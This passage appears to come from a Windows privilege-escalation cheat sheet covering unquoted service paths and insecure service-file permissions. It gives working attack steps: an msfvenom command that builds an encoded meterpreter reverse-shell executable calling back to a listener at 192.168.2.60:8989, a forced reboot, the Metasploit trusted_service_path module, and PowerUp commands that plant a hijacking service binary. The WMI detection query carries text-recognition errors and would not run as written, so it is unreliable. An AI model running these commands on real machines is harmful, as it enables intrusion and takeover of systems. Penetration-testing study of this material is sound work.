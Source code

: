 3. Use msfvenom to generate a exe  

   ```text
   msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o A.exe
   ```

4. Restart the machine to restart the vulnerable services

   ```text
   shutdown /r /t 0
   ```

5. Start a handler `exploit/multi/handler` to catch the shell

   Alternatively 

#### Metasploit

```text
exploit/windows/local/trusted_service_path
```

#### Powershell \(PowerUp.ps1\)

**Detection**

```text
Get-WmiObject win32_service I select Name,PathName,StartMode,StartName | where
{$_.StartMode -ne "Disabled” -and $_.StartName -eq ”LocalSystem" -and
$_.PathName -notmatch "‘”" -and $_.PathName -notmatch "C:\\Windows"} | Format-List
```

_**PowerUp**_

```text
Get-ServiceUnquoted
```

**Exploitation**

```text
Write-ServiceBinary -Name <service_name> -Path <hijack_path>
```

## Insecure File/Folder Permissions

1. Check whether the executable path of the vulnerable service to see if it is well-protected

   **icacls**

   ```text
   C:\Program Files (x86)\Program Folder>icacls <directory_or_file>
   ```

   **AccessChk \(Sysinternal\)**

   ```text
   accesschk.exe -wvu <directory_or_file>
   ```

2. Create a custom service binary

